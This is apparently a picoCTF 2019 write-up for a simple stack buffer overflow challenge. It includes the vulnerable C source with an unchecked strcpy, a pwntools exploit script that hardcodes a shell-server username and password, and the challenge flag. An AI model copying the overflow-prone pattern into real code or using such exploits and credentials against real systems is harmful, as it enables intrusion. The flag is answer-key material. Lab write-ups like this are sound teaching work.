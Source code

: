 # Problem
This should be easy. Overflow the correct buffer in this [program](https://2019shell1.picoctf.com/static/7c6fa533194c6f283cea87be317f8c7f/vuln) and get a flag. Its also found in /problems/overflow-0_3_dc6e55b8358f1c82f03ddd018a5549e0 on the shell server. [Source](https://2019shell1.picoctf.com/static/7c6fa533194c6f283cea87be317f8c7f/vuln.c).

## Hints:
Find a way to trigger the flag to print

If you try to do the math by hand, maybe try and add a few more characters. Sometimes there are things you aren't expecting.

## Solution:

Lets download the files:
```bash
wget https://2019shell1.picoctf.com/static/7c6fa533194c6f283cea87be317f8c7f/vuln
wget https://2019shell1.picoctf.com/static/7c6fa533194c6f283cea87be317f8c7f/vuln.c
```

First, we investigate the source
```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <signal.h>

#define FLAGSIZE_MAX 64

char flag[FLAGSIZE_MAX];

void sigsegv_handler(int sig) {
  fprintf(stderr, "%s\n", flag);
  fflush(stderr);
  exit(1);
}

void vuln(char *input){
  char buf[128];
  strcpy(buf, input);
}

int main(int argc, char **argv){
  
  FILE *f = fopen("flag.txt","r");
  if (f == NULL) {
    printf("Flag File is Missing. Problem is Misconfigured, please contact an Admin if you are running this on the shell server.\n");
    exit(0);
  }
  fgets(flag,FLAGSIZE_MAX,f);
  signal(SIGSEGV, sigsegv_handler);
  
  gid_t gid = getegid();
  setresgid(gid, gid, gid);
  
  if (argc > 1) {
    vuln(argv[1]);
    printf("You entered: %s", argv[1]);
  }
  else
    printf("Please enter an argument next time\n");
  return 0;
}

```

We need to redirect program flow to sigsegv_handler, we can just override some important stack values (which will probably cause SIGSEGV).

Using this script:
```python
#!/usr/bin/env python

from pwn import *


debug = 0

user = 'RoeeSefi'
pw = 'UTTE9CQN2idX28W'


payload = "A"*200

if debug:
	r = process(['./vuln', payload])
else:
	s = ssh(host = '2019shell1.picoctf.com', user=user, password=pw)

	s.set_working_directory('/problems/overflow-0_3_dc6e55b8358f1c82f03ddd018a5549e0')
	r = s.process(['./vuln', payload])

print r.recvall()
```

Flag: picoCTF{3asY_P3a5y1fcf81f9}